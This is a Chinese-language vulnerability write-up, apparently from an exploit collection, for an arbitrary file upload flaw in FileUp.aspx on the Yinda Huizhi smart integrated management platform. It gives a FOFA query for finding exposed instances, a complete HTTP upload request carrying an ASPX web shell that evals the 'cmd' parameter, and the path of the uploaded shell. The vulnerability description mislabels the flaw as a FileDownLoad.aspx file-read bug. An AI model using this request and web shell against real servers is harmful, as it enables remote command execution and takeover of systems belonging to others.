 # 银达汇智 智慧综合管理平台 FileUp.aspx 任意文件上传漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

<a-checkbox checked>银达汇智 智慧综合管理平台 </a-checkbox></br>

## FOFA

<a-checkbox checked>"汇智信息" && title=="智慧综合管理平台登入"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1627914977251-450973a6-e847-454b-817b-efa35fdc4aed.png)

文件上传请求包

```bash
POST /Module/FileUpPage/FileUp.aspx?orgid=1&type=NNewsContent HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 337
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Referer: http://www.baidu.com
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=62907949903a4c499178971c9dab4ad9

--62907949903a4c499178971c9dab4ad9
Content-Disposition: form-data; name="Filedata"; filename="abc.aspx"
Content-Type: image/jpeg

<%@ Page Language="Jscript"%><%Response.Write(FormsAuthentication.HashPasswordForStoringInConfigFile("abc", "MD5").ToLower());eval(Request.Item["cmd"],"unsafe");%>
--62907949903a4c499178971c9dab4ad9--
```

![img](../../../.vuepress/public/img/1629368451848-7ecbcd3e-82cc-4608-b9a9-a312826248ea.png)

响应包会返回文件名，上传的目录为

```bash
/imgnews/imgcontent/1/xxxxxxxxxx.aspx
```

![img](../../../.vuepress/public/img/1629368525052-fffda86a-30fa-4dc0-a3a0-537a0be5b5c3.png)

出现如图成功上传木马，密码为 **cmd**